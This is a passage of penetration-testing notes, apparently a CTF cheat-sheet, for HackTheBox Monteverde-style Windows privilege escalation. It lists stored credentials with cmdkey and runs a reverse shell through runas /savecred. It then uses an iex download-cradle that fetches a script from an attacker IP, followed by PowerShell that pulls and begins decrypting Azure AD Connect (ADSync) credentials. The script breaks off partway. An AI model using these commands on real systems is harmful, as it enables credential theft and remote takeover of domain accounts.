 cmdkey /list #Displays stored credentials, looks for any optential users

#Transfer the reverseshell

runas /savecred /user:admin C:\\Temp\\reverse.exe

## Get-MSOLCredentials via Azure admins PE port (1443)

[[https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html]{.underline}](https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html)

[[https://blog.raw.pm/en/HackTheBox-Monteverde-write-up/]{.underline}](https://blog.raw.pm/en/HackTheBox-Monteverde-write-up/)

iex(new-object
net.webclient).downloadstring(\'[[http://10.10.14.126:8000/Get-MSOLCredentials.ps1]{.underline}](http://10.10.14.126:8000/Get-MSOLCredentials.ps1)\')

\$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
\"Server=127.0.0.1;Database=ADSync;Integrated Security=True\"

\$client.Open()

\$cmd = \$client.CreateCommand()

\$cmd.CommandText = \"SELECT keyset_id, instance_id, entropy FROM
mms_server_configuration\"

\$reader = \$cmd.ExecuteReader()

\$reader.Read() \| Out-Null

\$key_id = \$reader.GetInt32(0)

\$instance_id = \$reader.GetGuid(1)

\$entropy = \$reader.GetGuid(2)

\$reader.Close()

\$cmd = \$client.CreateCommand()

\$cmd.CommandText = \"SELECT private_configuration_xml,
encrypted_configuration FROM mms_management_agent WHERE ma_type =
\'AD\'\"

\$reader = \$cmd.ExecuteReader()

\$reader.Read() \| Out-Null

\$config = \$reader.GetString(0)

\$crypted = \$reader.GetString(1)

\$reader.Close()

add-type -path \'C:\\Program Files\\Microsoft Azure AD
Sync\\Bin\\mcrypt.dll\'

\$km = New-Object -TypeName
Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
